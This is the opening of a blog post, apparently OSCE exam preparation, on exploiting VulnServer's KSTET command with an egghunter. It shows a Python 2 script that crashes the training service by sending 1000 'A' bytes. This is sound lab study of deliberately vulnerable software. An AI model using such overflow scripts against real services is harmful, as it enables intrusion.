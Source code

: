 ```yaml
---
layout: post
title:  "[VulnServer] Exploiting KSTET Command with Minimal Buffer Space Using Egghunter"
date:   2018-06-28
categories: [exploitdev, osceprep]
---
```


I used the following skeleton for the exploitation of the `KSTET` command. Instead of sending 5000 bytes of buffer to fuzz the command, I only used 1000 bytes this time.
```python
#!/usr/bin/python

import os
import sys
import socket

host = "192.168.1.129"
port = 9999

buffer = "A”*1000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
print "[*] Sending exploit..."
s.send("KSTET " + buffer)
print s.recv(1024)
s.close()
```


![GTER Spike](/static/img/03/01.png)
